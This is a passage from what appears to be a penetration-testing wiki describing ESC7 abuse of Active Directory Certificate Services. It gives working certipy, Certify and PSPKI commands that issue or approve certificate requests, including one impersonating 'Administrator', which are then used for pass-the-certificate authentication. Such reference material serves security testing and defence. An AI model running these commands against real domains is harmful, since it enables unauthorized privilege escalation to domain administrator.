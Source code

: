 In order to abuse the `SubCA` template with ESC7, both `ManageCA` and `ManageCertificates` are needed in order to issue a certificate from a failed request.

```bash
# Request a certificates for SubCA (it will fail with CERTSRV_E_TEMPLATE_DENIED)
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'SubCA' -upn 'Administrator'

# Issue the previous SubCA failed certificate request (need ManageCA and ManageCertificates rights for a failed request)
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -issue-request 100

# Retrieve the issued certificate
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -retrieve 100
```

The certificate can then be used with [Pass-The-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including access rights over the CA object, and to request a certificate that requires manager approval.

In this example, both `ManageCA` and `ManageCertificates` are already obtained. There is no known method to obtain the `ManageCertificates` right.

Then, [PSPKI](https://github.com/PKISolutions/PSPKI) (PowerShell) can be used to approve a certificate request ([RSAT](https://docs.microsoft.com/fr-fr/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) is needed on the machine where PSPKI is used). PSPKI is a PowerShell module used to "simplify various PKI and AD CS management tasks".

```powershell
# 1. Request a certificate that requires manager approval with Certify
Certify.exe request /ca:CA.domain.local\CA /template:ApprovalNeeded
...
[*] Request ID : 1

# 2. Install PSPKI on a controlled Windows host
Install-Module -Name PSPKI
Import-Module PSPKI

# 3. Approve the pending request with PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA.domain.local | Get-PendingRequest -RequestID 1 | Approve-CertificateRequest

# 4. Download the certificate with Certify
Certify.exe download /ca:CA.domain.local\CA /id:1
```
{% endtab %}
{% endtabs %}
